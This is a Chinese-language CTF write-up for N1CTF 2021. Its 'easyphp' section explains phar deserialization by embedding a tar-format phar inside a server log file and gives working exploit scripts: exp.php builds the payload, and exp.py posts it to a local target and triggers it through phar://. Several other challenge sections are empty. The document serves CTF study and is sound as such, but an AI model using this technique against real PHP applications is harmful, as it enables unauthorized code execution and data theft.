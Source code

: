 # N1CTF 2021

## signin

> *2021/11/26*

### 题目

直接给了代码

```php
<?php 
//flag is /flag
$path=$_POST['path'];
$time=(isset($_GET['time'])) ? urldecode(date(file_get_contents('php://input'))) : date("Y/m/d H:i:s");
$name="/var/www/tmp/".time().rand().'.txt';
$black="f|ht|ba|z|ro|;|,|=|c|g|da|_";
$blist=explode("|",$black);
foreach($blist as $b){
    if(strpos($path,$b) !== false){
        die();
    }
}
if(file_put_contents($name, $time)){
    echo "<pre class='language-html'><code class='language-html'>logpath:$name</code></pre>";
}
$check=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($path));
if(is_file($check)){
    echo "<pre class='language-html'><code class='language-html'>".file_get_contents($check)."</code></pre>";
}

```

### payload

## easyphp

> *2021/11/26*

### 题目

这道题代码还是比较简单的，三个文件

```php
// flag.php

<?php

CLASS FLAG {
    private $_flag = 'n1ctf{************************}';
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}
```

`flag.php`就是当销毁时，会读取`flag`

```php
// index.php

<?php
include_once "flag.php";
include_once "log.php";

if(file_exists(@$_GET["file"])){
    echo "file exist!";
}else{
    echo "file not exist!";
}

?>
```

`index.php`则会判断文件是否存在

```php
// log.php

<?php
define('ROOT_PATH', dirname(__FILE__));

$log_type = @$_GET['log_type'];
if(!isset($log_type)){
    $log_type = "look";
}

$gets = http_build_query($_REQUEST);

$real_ip = $_SERVER['REMOTE_ADDR'];
$log_ip_dir = ROOT_PATH . '/log/' . $real_ip;

if(!is_dir($log_ip_dir)){
    mkdir($log_ip_dir, 0777, true);
}

$log = 'Time: ' . date('Y-m-d H:i:s') . ' IP: [' . @$_SERVER['HTTP_X_FORWARDED_FOR'] . '], REQUEST: [' . $gets . '], CONTENT: [' . file_get_contents('php://input') . "]\n";
$log_file = $log_ip_dir . '/' . $log_type . '_www.log';

file_put_contents($log_file, $log, FILE_APPEND);

?>
```

`log.php`会接受`logtype`参数，并把文件命名为该格式的文件，文件路径也已知，而且存在 **跨目录**，但是用处一般，本题将`log`的形式给出，日志始终以`]`收尾，

```php
'Time: ' . date('Y-m-d H:i:s') . ' IP: [' . @$_SERVER['HTTP_X_FORWARDED_FOR'] . '], REQUEST: [' . $gets . '], CONTENT: [' . file_get_contents('php://input') . "]\n";
```

该题目是比较明显的`phar`反序列化，因为存在着标准的文件操作函数`file_exists`，但是本体的难点在于，无法上传`phar`文件，而可读取的东西又只有`log`文件，所以思路就转换为如何把`phar`文件嵌入`log`文件中，正常的`phar`文件一般是以`GBMB`为结尾，直接插入会使其变为非法文件，所以就需要一种能将`phar`文件正确嵌入其他格式的方法，保证正确性。

这里有一篇将`phar`文件正确嵌入`jpg`文件的[文章](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a)，和[虎符CTF中的一道题](https://guokeya.github.io/post/uxwHLckwx/)

实际上，这里可以采用`phar`的`tar`压缩形式，来将其正确的压入其中，而且，向结尾添加一个`]`也不会影响其正确性，举个例子

```php
<?php

CLASS FLAG {
    private $_flag = 'n1ctf{************************}';
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}


$phar = new PharData(dirname(__FILE__) . "/phar.tar", 0, "phartest", Phar::TAR);
$phar->startBuffering();
$o = new FLAG();
$phar->setMetadata($o);
$phar->addFromString($log, "test");
$phar->stopBuffering();

file_put_contents("./phar.tar", "]\n", FILE_APPEND);
```

这段代码是可以直接把`flag`读出来的，证明思路是正确的，写个脚本就能读出`flag`

### payload

```php
// exp.php
<?php

CLASS FLAG {
    //private $_flag;
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}

$ip = "172.17.0.1";
$log = 'Time: ' . date('Y-m-d H:i:s') . ' IP: [' . $ip . '], REQUEST: [], CONTENT: [';
$data_len = strlen($log);// 读取前面的长度，后面exp好将这部分去掉

if(!file_exists("./phar.tar")){
    $phar = new PharData(dirname(__FILE__) . "/phar.tar", 0, "phartest", Phar::TAR);
    $phar->startBuffering();
    $o = new FLAG();
    $phar->setMetadata($o);
    $phar->addFromString($log, "test");
    $phar->stopBuffering();

    file_put_contents("./phar.tar", "]\n", FILE_APPEND);
}

$exp = file_get_contents("./phar.tar");
$post_exp = substr($exp, $data_len);
echo rawurlencode($post_exp);

// var_dump(is_dir("phar://./phar.tar"));
//var_dump(is_dir("phar://./../../www/log/127.0.0.1/look_www.log"));
```

```python
# exp.py
mport os
import requests
from urllib.parse import unquote

def execCmd(cmd):
    r = os.popen(cmd)
    text = r.read()
    r.close()
    return text

headers = {
    "X-Forwarded-For": "172.17.0.1"
}

# write evil log file
exp = execCmd("php exp.php")
r = requests.post("http://127.0.0.1:8880/", unquote(exp), headers=headers)
# 这样访问request才为空
print(r.text)

# exp
r = requests.get("http://127.0.0.1:8880/?log_type=test&file=phar://./log/172.17.0.1/look_www.log")
# r = requests.get("http://testabc.com:10082/?log_type=test&file=phar://./log/127.0.0.1/phar.tar")
print(r.text)
```

## QQQueryyy_all_the_things

> *2021/11/26*

### 题目



### payload

## funny_web

> *2021/11/26*

### 题目



### payload

## tornado

> *2021/11/26*

### 题目



### payload
